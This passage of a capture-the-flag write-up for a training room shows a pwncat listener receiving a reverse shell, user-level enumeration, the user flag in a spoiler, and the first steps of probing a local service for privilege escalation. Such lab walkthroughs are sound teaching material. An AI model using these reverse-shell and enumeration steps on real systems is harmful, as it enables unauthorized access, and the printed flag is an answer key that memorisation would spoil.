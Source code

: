 The vuln is triggered right after upload completion.

```plaintext
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.2.188:33672 (family 2/IPv4, TCP)
sh: cannot set terminal process group (978): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
sh-4.4$ pwd
/tmp/hsperfdata_magician
sh-4.4$ ls /home
magician
sh-4.4$ cd
sh-4.4$ pwd
/home/magician
sh-4.4$ cat user.txt
THM{edited}
```

user flag: {% spoiler `THM{simsalabim_hex_hex}` %}

## Elevation of privilege (EoP): from magician to root

A hint was left to us:

```plaintext
sh-4.4$ cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

There must be a local service.

```plaintext
sh-4.4$ ss -nlpt
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port
LISTEN   0         128                 0.0.0.0:8081             0.0.0.0:*
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*
LISTEN   0         128               127.0.0.1:6666             0.0.0.0:*
LISTEN   0         100                       *:8080                   *:*        users:(("java",pid=915,fd=25))
LISTEN   0         32                        *:21                     *:*
```

There something on port 6666.

Let's see if it's a web app:

```plaintext
sh-4.4$ curl http://127.0.0.1:6666
...
<form action="" method="post" class="form" role="form">
    <div class="form-group ">
        <label class="control-label" for="filename">Enter filename</label>
        <input class="form-control" id="filename" name="filename" type="text" value="">
    </div>
    <input class="btn btn-default" id="submit" name="submit" type="submit" value="Submit">
</form>
...
```
